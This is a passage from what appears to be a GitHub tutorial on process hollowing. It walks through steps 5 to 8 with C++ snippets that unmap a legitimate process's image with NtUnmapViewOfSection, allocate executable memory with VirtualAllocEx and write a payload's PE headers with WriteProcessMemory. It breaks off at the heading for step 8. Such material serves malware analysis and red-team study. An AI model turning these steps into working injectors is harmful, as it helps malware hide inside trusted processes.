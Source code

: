 ``` cpp
        (LPVOID)(pebAddress + 8),
        &imageBaseAddress,
        sizeof(LPVOID),
        &bytesRead2
    )) {
        ErrorExit("Could not read process base address");
    }
```

## 5. Unmap memory from the legitimate process

We must unmap memory from our process using [NtUnmapViewOfSection](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FNtUnmapViewOfSection.html) creating a "hole" for our code

``` cpp
if (!NtUnmapViewOfSection(processInfo.hProcess,imageBaseAddress)) 
```

## 6. Allocate new memory in the legitimate process

We must allocate memory in our "hole" using [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) to be able to write the bytes of our payload

``` cpp
    LPVOID newBaseAddress = VirtualAllocEx(
        processInfo.hProcess,
        (LPVOID)(sourceImageNTHeaders->OptionalHeader.ImageBase),
        sourceImageNTHeaders->OptionalHeader.SizeOfImage,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );
```

## 7. Write PE headers to the legitimate process

We use [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) to write data to the remote process
We copy all PE headers (DOS, NT, section tables)
These headers contain the "map" or "scheme" that the operating system needs to understand the structure of the executable

``` cpp
 if (!WriteProcessMemory(
        processInfo.hProcess,
        newBaseAddress,
        sourceFileBytesBuffer,
        sourceImageNTHeaders->OptionalHeader.SizeOfHeaders,
        NULL
    ))
```

## 8. Write PE sections to the legitimate process
